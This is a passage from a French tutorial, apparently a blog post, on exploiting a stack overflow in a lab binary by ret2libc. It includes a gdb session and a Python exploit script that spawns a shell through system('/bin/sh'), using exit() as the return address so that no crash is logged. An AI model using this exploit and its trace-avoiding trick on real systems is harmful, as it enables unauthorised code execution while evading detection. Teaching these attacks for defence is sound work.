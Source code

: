 
Cherchons alors l'adresse de `exit()`


```bash
gdb$ p exit
$3 = {<text variable, no debug info>} 0xb7e9d530 <exit>
gdb$ r "$(perl -e 'print "A"x20 . "\x20\x9e\xea\xb7" . "\x30\xd5\xe9\xb7" . "\xd2\xf6\xff\xbf"')"
AAAAAAAAAAAAAAAAAAAA ��0������

$ exit
[Inferior 1 (process 10896) exited normally]
--------------------------------------------------------------------------[regs]
  EAX:Error while running hook_stop:
No registers.
gdb$ 
```


Lorsque nous faisons un exit du premier shell avec notre adresse de retour `"OSEF"`, nous avons une faute de segmentation (qui sera loguée, donc qui laisse des traces), tandis qu'en cherchant l'adresse de la fonction `exit()`, et en la plaçant en adresse de retour, la sortie du shell que nous avons forké se fait sans erreur, comme le montre le message **exited normally**.


Comme ce n'est pas très lisible, voici un code python qui permet d'exploiter ce binaire avec les éléments que nous avons mis en place


```python
import os
import struct

# Addresses de system et "/bin/sh"
system   = 0xb7ea9e20
exit     = 0xb7e9d530
bin_sh   = 0xbffff6d2

# Buffer
payload  = "A"*28

# Overwrite sEBP (Valeur aleatoire)
payload += "HNDO"

# system("bin/sh") avec l'adresse de retour vers exit()
payload += struct.pack("I", system)
payload += struct.pack("I", exit)
payload += struct.pack("I", bin_sh)

os.system("./ret2libc \"%s\"" % payload)
```


J'espère que cet article aura été utile et clair. Rappelez-vous que ce ne sont que des explications à titre éducatives, pour mieux comprendre votre environnement et les dangers qui existent afin d'en prendre conscience, de les comprendre, et de s'en prémunir.

